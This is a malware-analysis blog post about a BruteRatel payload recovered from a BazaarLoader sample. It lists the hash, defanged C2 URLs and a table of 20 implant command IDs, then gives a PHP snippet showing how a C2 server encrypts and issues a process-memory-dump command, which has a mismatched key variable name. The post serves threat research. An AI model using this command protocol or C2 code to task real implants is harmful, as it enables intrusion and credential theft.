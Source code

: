 ```yaml
---
title: "BruteRatel full command analysis (1/X)"
date: 2025-03-XX
---
```


<link rel="stylesheet" href="/css/main.css">

## BazaarLoader / BRUTERATEL  

## Context  

BruteRatel SHA256 : d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1  

Sample Source :  
[bazaar.abuse.ch](https://bazaar.abuse.ch/sample/d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1/)   

VirusTotal :  
[VirusTotal](https://www.virustotal.com/gui/file/d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1)  

Network / C2 :  
http://tiguanin[.]com/bazar.php:8041
http://tiguanin[.]com/admin.php:8041  
http://bazarunet[.]com/admin.php:8041  
http://bazarunet[.]com/bazar.php:8041  
http://greshunka[.]com/bazar.php:8041 
http://greshunka[.]com/admin.php:8041 

# INTRO  

This article is a follow-up from a previous post regarding a BazaarLoader sample analysis : [Initial Post](https://cedricg-mirror.github.io/2025/02/04/BazaarLoader.html)  
After going through various stages of unpacking and in-memory loading, I was able to retrieve the final payload from the initial sample and made it available on [bazaar.abuse.ch](https://bazaar.abuse.ch/sample/d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1/)  

Working on this unpacked payload made the sample analysis much more straightforward and given the sheer amount of functionalities offered by this malware I've decided to review them all.  

This detailed analysis will be split into several parts, I will be presenting in this the 'first' 20 commands that BruteRatel can respond to.  

# COMMAND LIST

Here is a short description of the first 20 command codes and purpose :  

| Command ID   | Description             | Parameter         |
| :----------- | :---------------------- | :----------------:|
| "\x9f\x3c"   | GetCurrentDirectory     | NA                |
| "\x3f\xd5"   | GetIpTable              | NA                |
| "\xfe\x4f"   | GetAccountPrivileges    | NA                |
| "\x91\x03"   | LockWorkStation         | NA                |
| "\x09\x06"   | GetLogicalDrives        | NA                |
| "\x01\x0a"   | GetSystemUptime         | NA                |
| "\x06\x0b"   | GetLastInputInfo        | NA                |
| "\x03\x07"   | ExitProcess             | NA                |
| "\x05\x06"   | RevertToSelf            | NA                |
| "\x05\x01"   | GetClipBoardData        | NA                |
| "\x44\xc1"   | EnumDevicesDrivers      | NA                |
| "\x41\x9c"   | Screenshot              | NA                |
| "\xcb\xe3"   | GetDomainControlerInfo  | NA                |
| "\x16\xf6"   | GetNetworkAdaptersInfo  | NA                |
| "\x03\x08"   | ExitThread              | NA                |
| "\x34\x49"   | GetMemoryDump           | "processname.exe" |
| "\x39\xb3"   | GetTcpUdpTables         | NA                | 
| "\x1a\xd4"   | GetIpForwardTable       | NA                | 
| "\x9a\xbe"   | QuerySessionInformation | NA                | 
| "\xb7\x38"   | GetDnsCacheDataTable    | NA                |

# Command Syntaxe  

On the C2 side, a command can be issued this way (example with the GetMemoryDump order) :  

```php
$RC4Key = "S47EFEUO3D2O6641";
$auth_token = "OV1T557KBIUECUM5";

function GetMemoryDump($process_name)
{
	$cmd_id = "\x34\x49 $process_name";
	$cmd_id_b64 = base64_encode($cmd_id);
	
	return $cmd_id_b64;
}

if ($_SERVER['REQUEST_METHOD'] === 'POST')
{
	$cmd_id_b64 = GetMemoryDump("explorer.exe");
	
	$cmd = "$auth_token, $cmd_id_b64";
	$cmd_enc = rc4($Rc4Key, $cmd);
	$cmd_b64 = base64_encode($cmd_enc);
	echo $cmd_b64;
	
	return;
}
```

# Dynamic Analysis  


